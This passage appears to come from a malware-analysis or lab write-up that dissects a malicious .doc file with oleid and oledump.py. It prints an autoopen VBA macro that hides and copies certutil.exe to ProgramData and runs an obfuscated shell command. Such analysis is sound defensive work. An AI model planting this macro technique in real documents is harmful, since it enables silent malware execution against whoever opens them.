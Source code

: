 

---

### **Attacker 3**  

#### **Identifying Macros**  
Following the patterns observed in Attacker 1 and Attacker 2, we can assume that `attacker3.doc` is a `.doc` file containing malicious VBA macros. Running `oleid` confirms the presence of suspicious VBA macros:

```bash
parrot@parrot:~$ oleid attacker3.doc 
...snip...
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
...snip...
```

Using `oledump.py`, we identify the streams containing macros (marked with "M"):

```bash
parrot@parrot:~$ oledump.py attacker3.doc 
A: word/vbaProject.bin
 A1:       423 'PROJECT'
 A2:        53 'PROJECTwm'
 A3: M    2017 'VBA/T'
 A4: m    1127 'VBA/ThisDocument'
 A5:      2976 'VBA/_VBA_PROJECT'
 A6:      1864 'VBA/__SRP_0'
 A7:       190 'VBA/__SRP_1'
 A8:       348 'VBA/__SRP_2'
 A9:       106 'VBA/__SRP_3'
A10: M    1291 'VBA/d'
A11:       723 'VBA/dir'
```

**Observations:**  
Streams `A3`, `A4`, and `A10` contain likely malicious code. Stream `A4` defines generic variables, while `A3` and `A10` contain the core malicious logic. Since the `autoopen()` subroutine is located in `A3`, we begin our analysis there.

---

#### **Manual Analysis of Stream A3**  
Stream `A3` contains the following VBA code:

```vb
Sub autoopen()
    LG = h("12%2%...snip...%77")

    Dim XN As New WshShell
    Call XN.run("cmd /c set u=tutil&&call copy C:\Windows\System32\cer%u%.exe C:\ProgramData\1.exe", 0)
    Call XN.run(LG, 0)
End Sub
```
